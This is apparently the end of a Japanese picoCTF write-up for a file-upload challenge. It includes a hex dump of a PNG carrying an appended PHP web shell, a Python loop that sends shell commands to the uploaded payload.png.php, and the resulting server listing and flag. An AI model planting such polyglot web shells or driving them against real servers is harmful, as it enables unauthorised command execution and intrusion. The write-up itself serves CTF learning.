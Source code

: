 ```
00000060: 454e 44ae 4260 8200 0000 0000 0000 0000  END.B`..........
00000070: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000080: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000090: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000000a0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000000b0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
000000c0: 001e 5055 6e4b 3c3f 7068 7020 7379 7374  ..PUnK<?php syst
000000d0: 656d 2824 5f47 4554 5b27 636d 6427 5d29  em($_GET['cmd'])
000000e0: 3b20 3f3e 4d17 ebeb 0049 454e 44         ; ?>M....IEND
```
使いやすいようなスクリプトも書いた。
```python
import requests
import urllib.parse

url = "http://atlas.picoctf.net:59319/uploads/payload.png.php?cmd="

while True:
    payload = "echo '\n';" + input("$ ")
    urllib.parse.quote(payload)
    resp = requests.get(url + payload)
    print(resp.text)
```
```
$ ls
�PNG

�nDR ���        pHYs���+DATH���1 �O�a
   Ȣ��IEND�B`�PUnK

payload.png.php
M��IEND
$ ls ../
�PNG

�nDR ���        pHYs���+DATH���1 �O�a
   Ȣ��IEND�B`�PUnK

MFRDAZLDMUYDG.txt
index.php
instructions.txt
robots.txt
uploads
M��IEND
$ cat ../MFRDAZLDMUYDG.txt
�PNG

�nDR ���        pHYs���+DATH���1 �O�a
   Ȣ��IEND�B`�PUnK

/* picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_ab0ece03} */M��IEND
$
```

writeup終わり。次は[Space Heroes 2024](https://ctftime.org/event/2254)に参加してそのWriteupを書く予定。
